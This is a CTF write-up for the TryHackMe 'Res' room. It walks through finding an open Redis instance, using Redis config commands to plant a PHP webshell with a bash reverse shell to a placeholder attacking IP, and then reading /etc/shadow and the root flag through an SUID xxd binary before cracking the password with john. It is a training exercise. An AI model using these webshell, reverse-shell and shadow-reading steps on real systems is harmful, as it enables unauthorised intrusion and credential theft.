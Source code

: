 ```yaml
---
title: Res CTF Write Up (2023)
date: 2023-10-17
categories: [CTF Write Up, THM]
tags: [nmap, redis, rce, webshell, php, gtfobins, john, suid]
img_path: /assets/res/
mermaid: true
---
```


![room_banner](room_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4?type=png)](https://mermaid.live/edit#pako:eNptkLtuwzAMRX9FUBcZSILMGgrUj_SBFAGcdNNCyHQs2KYMSe4DQX6kS-f-XT-hspOhQ7VQuDy8vOCJa1shl7zu7JtuwAW2LRWx-O5EQWOPDoKxlLDlklEPA1OKHkC3B2d066N6y1JRYmV8chlLJ_IPMfHm2Oxoldm6RpwEwqAhRNCyTIgyK5JESumwmqVcjB7dKrwH9vP1-X1tXdyzSNwfNrvU0Gy9f3nMp_pkG2KHBllphgHdnKsQWwgxf8ee7Sv2SOEasZjWbISzNvy3RZEi3YH3OdZsCuWDsy3Km3q95gseT9KDqeLNTjPNQxPNFZfxW4FrFVd0jhyMwe4_SHMZ3IgLPg5VjJMbODrouayh83j-BY4SfV4)

## 2 Background Information

### 2.1 Redis

[Redis](https://backendless.com/redis-what-it-is-what-it-does-and-why-you-should-care/) is a type of database that stores data entirely in main memory (RAM) rather than on disk. 

Its main benefit is that it provides **faster access** compared to a traditional disk-storaged database, and its main drawback is that it's **sensitive to data loss** in the event of a shutdown or a crash, since it is stored in memory.

![redis-flow](redis-flow.png)

Other than the knowledge of what Redis is, we don't really need much else to work our way through this room. To be honest, even that knowledge isn't necessary, but I find it always better to learn as much as possible for the technologies I am working with. 

If someone has used Redis before, and knows how to interact with it through CLI it will be beneficial for sure, but we will learn the required commands through a [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) article anyway, so let's crack on 🏃‍♀️!

## 3 CTF Process

### 3.1 Port-scanning

The first question asks us about the number of open ports, so let's start with an **nmap port-scan**.

![nmap-results_common_ports](nmap-scan_without_all_ports.png)

We can see an Apache web server listening to port 80, although, this does not seem like the right answer to the question.

The default command, that is without any port specification, scans the [**most common 1,000 ports for each protocol**](https://nmap.org/book/man-port-specification.html#:~:text=By%20default%2C%20Nmap%20scans%20the,1%2C000%20ports%20for%20each%20protocol.&text=This%20option%20specifies%20which%20ports,(e.g.%201%2D1023%20).), so we can try scanning for all 65_535 ports by adding the `-p` option:

![nmap-scan-all-ports](nmap-scan-all-ports.png)

Now, a **Redis server on port 6379** appears, and the information provided allows us to answer the next three questions 🥂!

### 3.2 Redis to RCE

[This](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) excellent **HackTricks** article provides info on how to connect to Redis. In addition, it let us know that **by default Redis can be accessed without credentials**! 

Futhermore, the article suggests to us trying the `info` command first. The ouput of this command will reveal if authentication is needed for accessing the Redis instance. If it does, the following message will show up: `-NOAUTH Authentication required.` If not, it will return output with Redis instance's info. 

So, let's try it:

![redis_login](redis_connection.jpg)

We are in without needing any credentials, and we also have a username at hand 🎉!

The same [article](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) lists two ways on how to get **Remote Code Execution (RCE)**:
1. Using the `redis-rogue-server` python script, but this only works for versions `<= 5.0.5`, thus, we can't use it as our target uses `6.0.7`.
2. Creating a **PHP Webshell**, with the prerequisite to know the *path of the Web site folder*. Based on our **nmap scan**, we know that we have an **Apache web server**, and by asking Google, we can find out its default directory:

![default_dir_apache](default_dir_apache.png)

 So let's trying to get our reverse shell:
 1. To begin with, we need to create a reverse shell, this time using a PHP reverse shell from the [Highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell) blog. Note that we need to **escape** the double quotes inside our command with `\`, otherwise it won't work!

    ```bash
    # define the path of Apache's default directory
    config set dir /var/www/html/
    # create a "subdirectory" to host our reverse shell 
    config set dbfilename webshell.php
    # our reverse shell code
    set webshell.php "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<attacking-ip>/12345 0>&1'\"); ?>"
    # save our configuration
    save
    ```

 2. We then have to set up a listener to our machine:
 
    ```bash
    nc -lnvp 12345
    ```

 3. Finally, by visiting the newly-created server's subdirectory: http://\<target-ip\>/webshell.php, on our browser, we receive our shell 🎊!
  
    ![rce_setup](rce_setup.png)
 
With our **initial foothold** established, let's search for `user.txt`:

![flag1](flag1.jpg)

First 🚩 captured!

### 3.3 Privilege Escalation with SUID binaries 

The next question wants us to find the local user account's password. We already saw user `vianka` when first logged-in in Redis, and we saw it again while getting our first flag under `/home/vianka/user.txt`. 

When trying to switch to this user, we get the message: `su: must be run from a terminal`. Thus, we need to upgrade our shell, and then find a way to discover `vianka`'s password!

![su_tty](su_tty.png)

It is always worth searching for files with [SUID](https://www.scaler.com/topics/special-permissions-in-linux/) permissions set, as it is often an easy way to do PrivEsc. 

![suid](suids.jpg)

We have done this a couple of times so far, and `usr/bin/xxd` does not seem like a binary that is usually on this list. As we always do when we want to check for SUID file's potential exploits, let's visit [GTFOBins](https://gtfobins.github.io/#xxd): 

![xxd_suid](xxd_suid.png)

Based on GTFOBins, we can use the `xxd` binary to read any file we want, since it will run as root. We can use this to answer the room's last two questions:
1. We can assume that the `root.txt` file is located under the `/root` directory. As a result, we can define the `LFILE` variable as `/root/root.txt` and snatch the root 🚩.
2. We can do the same process for reading the `/etc/shadow` file in order to get `vianka`'s hash. Then, we can combine `vianka`'s info found on `/etc/passwd` file, and use both for unshadowing, and finally crack the hash with `john`.

Let's start by trying to read `root.txt` first. We need to make sure to either be within `xxd`'s directory, by typing `cd /usr/bin/`, or provide the full path, that is `/usr/bin/xxd`.

![flag2](flag2.jpg)

That was easy enough, and we have now captured our second 🚩. Let's go for some hash cracking now and get `vianka`'s password 🔒!

### 3.4 Hash Cracking with John The Ripper

Let's start by reading the `shadow` file, copying `vianka`'s information, and pasting it into a file on our machine:

![xxd_shadow](xxd_shadow.png)

We need to also copy and paste `vianka`'s info from the `passwd` file into another file on our local machine:

![passwd](passwd.png)

Now, all we have to do is to unshadow the files locally, and pass the unshadowed file to `john` so he can do its magic 🪄:

![john](john_vianka.jpg)

And that's us done 🍻!